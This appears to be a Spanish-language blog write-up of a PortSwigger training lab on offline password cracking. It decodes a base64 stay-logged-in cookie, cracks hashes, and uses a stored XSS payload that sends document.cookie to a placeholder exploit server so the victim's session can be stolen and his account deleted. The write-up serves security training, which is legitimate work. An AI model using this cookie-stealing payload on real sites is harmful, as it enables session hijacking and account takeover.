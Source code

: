 ```yaml
---
title: "10 Offline password cracking"
collection: publications
category: portswigger
permalink: publications/Authentication/10_Offline password cracking
excerpt: 'Este laboratorio permite a los usuarios permanecer conectados incluso después de cerrar la sesión del navegador. La cookie utilizada para proporcionar esta funcionalidad es vulnerable a la fuerza bruta.'
date: 2024-12-06
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Offline password cracking'
---
```


![logo]({{site.url}}/images/Authentication/authentication-lab-10/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Authentication/authentication-lab-10/descripcion.png)

## Objetivo del laboratorio

 A continuación, inicia sesión como Carlos y elimina su cuenta desde la página `My account page`.

## Analisis

Probamos la autenticación con un usuario valido con el cual tengamos las credenciales y vemos el proceso de login desde el BurpSuite.

![login]({{site.url}}/images/Authentication/authentication-lab-10/login.png)

Vemos que hay una cadena que podemos descrifrar

![Analisis]({{site.url}}/images/Authentication/authentication-lab-10/analisis.png)

Decodificamos en `Base64`

![base64]({{site.url}}/images/Authentication/authentication-lab-10/base64.png)

Usamos la herramienta web `CrackStatio` para crackear el password, vemos que es `peter`

![hash]({{site.url}}/images/Authentication/authentication-lab-10/hash.png)

## Vulnerabilidad XSS

Esta web es vulnerable a XSS asi que se va a simular el robo de credenciales, simulando que un usuario `carlos` ingresa las credenciales.  Con este metodo vamos a robar la cookie.

```javascript
<script>document.location='EXPLOIT'+document.cookie</script>
```

![XSS]({{site.url}}/images/Authentication/authentication-lab-10/xss.png)

Aqui obtuvimos el servidor

![server]({{site.url}}/images/Authentication/authentication-lab-10/server.png)

Revisamos el log, vemos que un usuario a ingresado sus credenciales y obtuvimos una cookie

![cookie]({{site.url}}/images/Authentication/authentication-lab-10/cookie.png)

Vemos que hay un String y la decodificamos.

![decode2]({{site.url}}/images/Authentication/authentication-lab-10/decode2.png)

Usamos la herramienta web `CrackStatio` para crackear el password, vemos que es `onceuponatime`

![Hash2]({{site.url}}/images/Authentication/authentication-lab-10/hash2.png)

## Login

![login2]({{site.url}}/images/Authentication/authentication-lab-10/login2.png)

Procedemos a borar la cuenta

![Borar]({{site.url}}/images/Authentication/authentication-lab-10/borrar.png)

Nos confima si queremos

![Seguro]({{site.url}}/images/Authentication/authentication-lab-10/seguro.png)

## Aprobado

![Aprobado]({{site.url}}/images/Authentication/authentication-lab-10/aprobado.png)